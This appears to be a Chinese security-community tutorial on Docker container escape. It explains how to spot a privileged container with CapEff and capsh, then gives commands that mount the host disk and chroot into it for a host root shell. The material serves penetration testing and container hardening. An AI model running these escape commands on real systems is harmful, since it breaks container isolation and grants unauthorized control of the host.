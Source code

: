 

# Docker 逃逸技术 - 先知社区

Docker 逃逸技术

- - -

## privileged 特权模式直接挂载目录

在 Docker 容器启动时如果添加了 `--privileged`参数，就会以特权模式启动 docker。  
即具备所有的**Capabilities**

```bash
docker run -it --rm --privileged ubuntu /bin/bash
```

在容器中可以通过`cat /proc/self/status | grep CapEff` 来判断容器是否以特权模式启动

[![](assets/1706845681-88f1735c48af3a2fb4d8a1761586f5c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131230048-8490b946-c049-1.png)

如果是特权模式的话，CapEff 对应的值为**0000003fffffffff**

通过`capsh`可以看到其所具有的 capability 权限

如：`capsh --decode=0000003fffffffff`

[![](assets/1706845681-3d2b21ed5d6677a8215d424821865a0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131230140-a3831876-c049-1.png)

以特权模式运行的 docker 容器具有所有的 capability 权限，即可以访问所有 device 以及具有挂载的草走权限。  
此时可以先将其挂载到容器中，然后使用`chroot`获取一个以宿主机根目录为根目录的`shell`来拿到宿主机的权限。

```bash
mkdir /pwn
mount /dev/sda1 /pwn
chroot /pwn
```
